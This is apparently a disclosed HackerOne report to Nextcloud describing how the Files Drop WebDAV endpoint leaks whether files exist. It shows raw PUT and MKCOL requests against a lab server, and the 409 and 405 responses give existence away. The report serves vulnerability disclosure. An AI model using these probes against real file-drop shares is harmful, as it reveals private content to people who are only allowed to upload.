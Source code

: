 # Files Drop: WebDAV endpoint is leaking existence of resources

## Report Details
- **Report ID**: 187460
- **URL**: https://hackerone.com/reports/187460
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-01T20:02:56.667Z
- **Disclosed**: 2017-01-01T16:49:04.107Z

## Reporter
- **Username**: lukasreschke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
The new WebDAV endpoint implementation in 11 is leaking too many informations if one executes a `MKCOL` or a `PUT` against an existing item. With Files Drop one should only be able to upload files but not leak any existence of items.

## Leaking existence using PUT

When doing a PUT the expectation is to return a 201. This is normally also the case: 

```
PUT /stable9/public.php/webdav/existingfile.txt HTTP/1.1
Host: 10.211.55.7
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain
X-OC-Mtime: 1876101427
Authorization: Basic WURxM1ZDT2V3cXZzT3VPOg==
Content-Disposition: attachment; filename="32c3_to_watch.txt"
requesttoken: +m5YTG99huBeunBefEwSzeAMAgmtAafV023vevyQLQg=:nj1uDSxJtbMJ60c6DBVjgNFUemXZLv+FkSOhNs7gZUE=
OCS-APIREQUEST: true
X-Requested-With: XMLHttpRequest
Content-Length: 4
Cookie: nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true
Connection: close

Test
```

```
HTTP/1.1 201 Created
Date: Thu, 01 Dec 2016 20:00:12 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: ocatqgmmmlsf=uiepm96me8tp8uoji2trrqf071; path=/stable9; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: oc_sessionPassphrase=cGoWWmqv3D27XMXKcbPHLVLXr8uBr%2BCzT2sxXfIpp3PH1L4L3VkMbyqYN58EEZDCylevi1n7I2DI7JNYKMmI0FQK3nVJq5Nqk4JhYzGQ2rIaN%2Fj0iZtVYD3%2F2FJSAcfy; path=/stable9; HttpOnly
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-eval' 'nonce-V3g0WGZ6VHJHOUlVZTFNWFg2SE8wcWxaZUYvcTNPbXdZcHVXQ0VHQ250TT06TUVoVkZFZkVUTEVtQ3daYUd1djhsSmtQUGhpenY3R0dEK1A1U25EYjBMWT0='; style-src 'self' 'unsafe-inline'; frame-src *; img-src * data: blob:; font-src 'self' data:; media-src *; connect-src *
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: Sameorigin
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
X-OC-MTime: accepted
OC-FileId: 00000050ocatqgmmmlsf
Content-Length: 0
ETag: "ea84893c98a856fe2b23bba48237183a"
OC-ETag: "ea84893c98a856fe2b23bba48237183a"
Connection: close
Content-Type: text/html; charset=UTF-8
```

However, when one does a put to a subresource of an existing file a 409 is returned:

```
PUT /stable9/public.php/webdav/existingfile.txt/foo HTTP/1.1
Host: 10.211.55.7
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain
X-OC-Mtime: 1876101427
Authorization: Basic WURxM1ZDT2V3cXZzT3VPOg==
Content-Disposition: attachment; filename="32c3_to_watch.txt"
requesttoken: +m5YTG99huBeunBefEwSzeAMAgmtAafV023vevyQLQg=:nj1uDSxJtbMJ60c6DBVjgNFUemXZLv+FkSOhNs7gZUE=
OCS-APIREQUEST: true
X-Requested-With: XMLHttpRequest
Content-Length: 4
Cookie: nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true
Connection: close

Test
```

```
HTTP/1.1 409 Conflict
Date: Thu, 01 Dec 2016 20:01:05 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: ocatqgmmmlsf=33b0iagf03ne5l2otuabccflg5; path=/stable9; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: oc_sessionPassphrase=heTSMUQ762x78XC0vj9MIwZIkfx5aYIAJBZM7Q48EO3mK%2FJDcWYsAA3yMfgkqhQSFfKYnJe5O9HQ%2FPcvkMwrTuCMre%2FxadgsfSZEob2Re60MFkgZNW3PjjU3nEcyi8ip; path=/stable9; HttpOnly
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-eval' 'nonce-YmI0OXBEZDdJR1hHbys3NjRXYXJBQUs1eHZ0cDFpSjF1KzI1QjdxamtPcz06T3NSRjdBRVNTbEdsNUszT2toS2RiV2FQaWJrS3RFa1Q5N3YyWGZYcndiND0='; style-src 'self' 'unsafe-inline'; frame-src *; img-src * data: blob:; font-src 'self' data:; media-src *; connect-src *
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: Sameorigin
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Content-Length: 244
Connection: close
Content-Type: application/xml; charset=utf-8

<?xml version="1.0" encoding="utf-8"?>
<d:error xmlns:d="DAV:" xmlns:s="http://sabredav.org/ns">
  <s:exception>Sabre\DAV\Exception\Conflict</s:exception>
  <s:message>Files can only be created as children of collections</s:message>
</d:error>
```

## Leaking existence using MKCOL

If one tries to create a new resource that already exists using MKCOL an error is returned to the user:
```
MKCOL /stable9/public.php/webdav/test.php HTTP/1.1
Host: 10.211.55.7
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
requesttoken: +m5YTG99huBeunBefEwSzeAMAgmtAafV023vevyQLQg=:nj1uDSxJtbMJ60c6DBVjgNFUemXZLv+FkSOhNs7gZUE=
Authorization: Basic WURxM1ZDT2V3cXZzT3VPOm51bGw=
Cookie: ocs8jj1jf8wp=bbg1t3u974t40t57qqqvmhjm37; oc_sessionPassphrase=H5YF8jijSzbyPHOLr0x98NVURt%2FAJWPOyGLJcFme430Dc19sE0iqjeDORZE8oL99yU457kokq%2FIsTV6cjmS3dF%2FiBAip1z8wCezDQyI0aCgBP1sa9FamXktDGZgAqbuC; ocezyib30iyq=tkk8687bg7ruq55m2trgh9bnn2; ocmt94z1vi7i=pcjpapbhvs92ctc7o2hu9up564; ocjxssn8xoit=69vrq761pp9lk2hctr4vf1oq74; octp32e9roze=j371cd6vq9k2mjibteuen098k1; ocatqgmmmlsf=o0v5a00o67bl0kfmu3v19ta5n3; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true
Connection: close
```

```
HTTP/1.1 405 Method Not Allowed
Date: Thu, 01 Dec 2016 20:01:41 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-eval' 'nonce-bFZWNFFwSXl3a0pLSXVnUUNtZlpoTEJ5ei9xWkJnL2VIZGpEY2lmUDZHQT06OFFaT0E5RUc4UkVkYzk5MGVqNm95WUVxdDVidEtWZU9YNWFOUGhXL29Daz0='; style-src 'self' 'unsafe-inline'; frame-src *; img-src * data: blob:; font-src 'self' data:; media-src *; connect-src *
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: Sameorigin
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Allow: OPTIONS, GET, HEAD, DELETE, PROPFIND, PUT, PROPPATCH, COPY, MOVE, REPORT
Content-Length: 247
Connection: close
Content-Type: application/xml; charset=utf-8

<?xml version="1.0" encoding="utf-8"?>
<d:error xmlns:d="DAV:" xmlns:s="http://sabredav.org/ns">
  <s:exception>Sabre\DAV\Exception\MethodNotAllowed</s:exception>
  <s:message>The resource you tried to create already exists</s:message>
</d:error>
```


## Attachments
No attachments
